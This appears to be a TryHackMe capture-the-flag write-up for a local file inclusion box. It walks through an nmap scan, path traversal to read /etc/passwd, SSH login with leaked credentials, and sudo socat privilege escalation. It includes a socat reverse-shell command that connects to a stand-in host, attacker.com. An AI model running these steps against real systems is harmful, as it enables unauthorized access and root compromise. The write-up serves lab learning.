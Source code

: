 # tryhackme ctf local file inclusion challenge
my machine: 10.9.234.242

target ip: 10.10.251.102

## procedure
- do nmap scan `nmap -sC -sV 10.10.251.102`
    ![nmap scan](images/nmap.png)

- looking around some articles, I see a vector for localfile inclusion which is in the url of one the articles. Lets try to retrieve the /etc/passwd file by path traversing through the url. you'll see a comment for one of the user in the passwd file and its password
    ![nmap scan](images/lfi.png)

- let's try to ssh using the creds from passwd file. we're in! and you'll see the 1st flag within falconfeast directory.
    ![nmap scan](images/ssh.png)

- let's try to find vector for PE. type the command `sudo -l` it'll give us the socat tool that is similar to netcat
    ![nmap scan](images/sudo.png)

- since the current user can run sudo without password on socat. we can perform a reverse shell by typing the ff command:
    ```
    #attacker machine
    socat file:`tty`,raw,echo=0 tcp-listen:12345
    ```
    ```
    #target machine
    RHOST=attacker.com
    RPORT=12345
    sudo socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
    ```

- go back to your attack machine and now we got the root shell
    ![nmap scan](images/root.png)
    

